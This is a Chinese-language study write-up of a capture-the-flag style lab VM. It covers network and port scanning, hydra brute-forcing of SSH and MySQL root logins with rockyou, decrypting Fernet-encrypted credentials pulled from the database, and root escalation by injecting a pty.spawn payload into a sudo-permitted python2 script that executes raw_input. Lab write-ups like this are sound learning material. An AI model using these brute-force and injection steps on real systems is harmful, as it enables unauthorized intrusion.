 # 笔记

## 战前准备环节

1.虚拟机突然断网

首先ifconfig，可以看到没有正在工作的网卡，只有localhost

然后ifconfig -a，可以看到eth0这块网卡并没有离家出走，只是罢工了而已

进入/etc/network

用vim打开interface文件

加入

auto eth0

iface eth0 inet dhcp

:wq保存



命令行执行/etc/init.d/networking restart



## 正式开始

### 信息收集

1.获取目标主机信息

可以用arp-scan -l扫描到靶机，但我是直接看靶机信息的

![image-20231027162452716](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027162452716.png)

192.168.127.129

2.作端口扫描

nmap -p- 192.168.127.129

![image-20231027162540094](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027162540094.png)

有一个mysql端口，另一个还不知道，再扫版本和信息

nmap -p3306,1337 -sC -sV 192.168.127.129

![image-20231027162706141](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027162706141.png)

另一个是ssh端口



### 开始渗透

准备爆破字典

cp /usr/share/wordlists/rockyou.txt.gz . 

这行指令还真能搞出来一个文件，**具体原理还不知道，需要后续学习**

gunzip rockyou.txt.gz 



对ssh端口和mysql端口分别进行爆破（使用hydra）

hydra -l root -P rockyou.txt ssh://192.168.127.129:1337/

hydra -l root -P rouckyou.txt mysql://192.168.127.129

得到mysql上爆破成功

![image-20231027163006644](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027163006644.png)



登录mysql

mysql -u root -h 192.168.127.129 -p

输入密码，登录

爆库，爆表

![image-20231027163132349](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027163132349.png)

![image-20231027163145367](D:\1-政企业务\pics\image-20231027163145367.png)

fernet解密：https://cryptography.io/en/latest/fernet/

填入参数来解密

![image-20231027163233879](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027163233879.png)

得到的用户名和密码，尝试ssh登录

ssh lucy@192.168.127.129 -p 1337

![image-20231027163414692](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027163414692.png)

成功登录，然后sudo -l查看当前用户能够做什么

能够python2运行exp

先cat /opt/exp.py看里面是什么

![image-20231027163509358](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027163509358.png)

### 提权

raw_input函数，可以尝试python2提权，参考https://blog.csdn.net/qq_40898302/article/details/124681969

 -c : 执行具体的代码

import ：导入语句

pty ： 终端（接口）

pty.spawn : 执行命令

import pty;pty.spawn('/bin/bash')

执行之后，提权成功

![image-20231027163639280](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027163639280.png)

## 知识点总结

1.使用arp-scan扫描本网段下存活的主机

然后nmap扫描端口，对未知端口可以使用-sC -sV探测详细信息

2.准备爆破字典的两个命令，需要再学习

3.hydra语句爆破的学习

4.mysql语句连接的学习，以及在数据库中查询语句的学习

5.fernet加密的学习，包括使用python3解密的学习

![image-20231027164332984](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027164332984.png)

6.成功连接主机之后的提权：sudo -l查看当前用户的权限

对代码审计的理解，raw_input是经典的函数

![image-20231027164240323](..\pics\image-20231027164240323.png)

且有exec函数，考虑代码注入



### 问题点

#### 爆破字典指令是怎么实现的



#### mysql查出的关键信息如何判定就是用于ssh的



#### /bin/bash一段的重要性？在mysql环节是有使用到的



#### python2提权代码的深入理解

经过验证，直接su也可以

![image-20231027165454287](https://github.com/ChristopherWuk/whatisthis/blob/main/pics/image-20231027165454287.png)

(root)NOPASSWD指明了使用sudo权限的时候使用这些命令不需要输入密码

import pty;

pty.spawn('su')

这两行就是执行su的意思

由于raw_input接收了这两行，并且被exec执行

因此原代码行等价于

sudo python2 exec(import pty;pty.spawn('su'))

又因为使用python2 执行exp.py不需要密码

因此等价于

sudo su且不需要输入密码

因此能提权成功

